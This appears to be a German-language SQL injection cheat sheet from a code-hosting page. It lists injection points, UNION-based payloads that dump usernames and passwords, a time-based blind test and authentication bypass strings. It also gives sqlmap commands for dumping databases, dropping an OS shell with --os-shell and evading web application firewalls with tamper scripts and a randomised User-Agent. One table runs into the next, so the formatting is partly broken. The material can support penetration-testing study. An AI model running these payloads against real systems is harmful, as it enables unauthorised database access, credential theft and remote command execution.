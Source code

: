 | Befehl                                                  | Beschreibung         |
| ------------------------------------------------------- | -------------------- |
| `SELECT * FROM users`                                   | Alle Daten anzeigen  |
| `SELECT username FROM users WHERE id=1`                 | Nur bestimmte Spalte |
| `INSERT INTO users (user,pass) VALUES ('admin','1234')` | Neue Zeile einfügen  |
| `UPDATE users SET pass='newpass' WHERE user='admin'`    | Daten ändern         |
| `DELETE FROM users WHERE id=3`                          | Zeile löschen        |

Typische Injection-Punkte:
- GET-Parameter (/page.php?id=1)
- POST-Formulare
- HTTP-Headers (User-Agent, Referer, Cookie)

| Ziel                    | Payload                                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------------------- |
| Test auf Verwundbarkeit | `' OR '1'='1`                                                                                  |
| Kommentar nutzen        | `' -- ` oder `' #`                                                                             |
| Tabelle erraten         | `' UNION SELECT null, table_name FROM information_schema.tables -- `                           |
| Spalten erraten         | `' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users' -- ` |
| Dump-Daten              | `' UNION SELECT username,password FROM users -- `               _______________________________|
|                         | Technik                                                        |
| ------------------------| -------------------------------------------------------------- |
| Cookie- oder Header-SQLi| `--cookie=...` / `--headers=...`                               |
| Login-Formulare         | `--data="user=...&pass=..."`                                   |
| JSON-RPC / API          | `--data='{"id":1}' --headers="Content-Type: application/json"` |
| Auth Bypass             | `' OR 1=1 -- ` + URL fuzzing                                   |
| Blind SQLi              | `--technique=T --level=5 --risk=3 --time-sec=5`                |



curl -s "http://target.com/page.php?id=1'"
# → Fehlerseite, Serverfehler, verzögerte Antwort = pot. SQLi

' OR IF(1=1, SLEEP(5), 0) -- 
# → Verzögerung = Erfolg


sqlmap -u "http://target.com/page.php?id=1" --batch
| Zweck                   | Befehl                                     |
| ----------------------- | ------------------------------------------ |
| Datenbanknamen anzeigen | `--dbs`                                    |
| Tabellen anzeigen       | `-D <db> --tables`                         |
| Spalten anzeigen        | `-D <db> -T <table> --columns`             |
| Daten extrahieren       | `-D <db> -T <table> -C <col1,col2> --dump` |

| Option               | Bedeutung                              |
| -------------------- | -------------------------------------- |
| `--batch`            | Automatische Antworten (keine Prompts) |
| `--cookie`           | Manuelle Session nutzen                |
| `--data`             | POST-Daten übergeben                   |
| `--level=N`          | Scan-Tiefe (1–5, default: 1)           |
| `--risk=N`           | Risiko-Level (1–3, default: 1)         |
| `--random-agent`     | User-Agent rotieren                    |
| `--technique=BEUSTQ` | Techniken definieren                   |
| `--os-shell`         | Remote Shell droppen (wenn möglich)    |
| `--threads=10`       | Parallelisierung                       |


**📦 POST/JSON/Custom Header Beispiel**
sqlmap -u "http://target.com/login" \
--data="user=admin&pass=123" \
--cookie="PHPSESSID=..." \
--headers="X-Forwarded-For: 127.0.0.1" \
--batch --dump

sqlmap -u "http://target/api" --data '{"id":"1"}' --batch --headers="Content-Type: application/json"


' OR 1=1 --

' OR 'a'='a

admin' -- 


# WAF-Bypass & Obfuscation
sqlmap -u ... --tamper=between,charencode,space2comment
--list-tampers


| Fehler                | Ursache / Lösung                                                   |
| --------------------- | ------------------------------------------------------------------ |
| 403 Forbidden         | WAF → Header faken, `--random-agent`, Proxy nutzen                 |
| Kein Output           | Level/Risk erhöhen (`--level=5 --risk=3`)                          |
| SQLmap erkennt nichts | Manuell testen, Payload anpassen                                   |
| Keine Shell           | DB hat keinen Out-of-Band-Zugriff (z. B. MySQL ohne `xp_cmdshell`) |



| Tool             | Funktion                              |
| ---------------- | ------------------------------------- |
| **sqlmap**       | Automatisierung                       |
| **Burp Suite**   | Manuelles Fuzzing, Intercept          |
| **ffuf / wfuzz** | Param-Fuzzing (z. B. hidden GET/POST) |
| **sqlninja**     | MSSQL-focused Exploits                |
| **NoSQLMap**     | MongoDB-Injection Exploits            |
